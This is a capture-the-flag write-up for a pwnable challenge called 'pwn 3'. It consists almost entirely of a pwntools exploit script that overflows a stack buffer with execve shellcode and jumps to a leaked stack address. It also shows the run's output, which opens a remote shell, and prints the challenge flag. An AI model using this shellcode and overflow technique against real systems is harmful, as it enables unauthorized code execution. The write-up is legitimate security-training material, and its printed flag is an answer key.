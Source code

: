 # **pwn 3**

#### tag : pwnable

-----------------------------------------------

#### Description

>nc pwn.ctf.tamu.edu 4323

-----------------------------------------------

#### Solution

~~~

from pwn import *

DEBUG = False

if DEBUG:
	r = process('./pwn3')
	context.log_level = 'debug'
else:
	r = remote('pwn.ctf.tamu.edu',4323)

sh = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

r.recvuntil('0x')
stack = int(r.recv(8),16)
r.recvuntil('? ')

payload = ''
payload += sh + 'a' * (242-len(sh))
payload += p32(stack)

r.sendline(payload)
r.interactive()

~~~

~~~

[+] Opening connection to pwn.ctf.tamu.edu on port 4323: Done
[*] Switching to interactive mode
1�Ph//shh/bin\x89���\x89°\x0b̀1�@̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa���\xff
$ ls
flag.txt
pwn3
$ cat ./flag.txt
gigem{n0w_w3_4r3_g377in6_s74r73d}

~~~

**gigem{n0w_w3_4r3_g377in6_s74r73d}**
